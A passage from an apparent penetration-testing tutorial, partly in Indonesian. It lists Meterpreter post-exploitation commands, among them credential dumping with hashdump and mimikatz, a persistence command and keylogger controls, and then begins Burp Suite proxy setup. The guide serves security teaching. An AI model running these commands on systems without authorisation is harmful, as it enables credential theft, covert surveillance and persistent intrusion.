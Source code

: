 ```bash
# Run exploit
exploit
run
```

#### Meterpreter Commands
```bash
# System information
sysinfo
getuid

# Process management
ps
migrate <PID>

# File system
pwd
ls
cd
download
upload

# Network
netstat
portfwd

# Privilege escalation
getsystem

# Credential harvesting
hashdump
load mimikatz
wdigest

# Persistence
run persistence -X

# Screenshot
screenshot

# Keylogger
keyscan_start
keyscan_dump
keyscan_stop
```

### 3. Burp Suite - Web Application Security Testing

#### Setup dan Konfigurasi
1. **Install Burp Suite Professional**
2. **Configure Browser Proxy:**
   - Firefox: Settings → Network Settings → Manual proxy
   - Set HTTP Proxy: 127.0.0.1:8080
   - Check "Use this proxy server for all protocols"
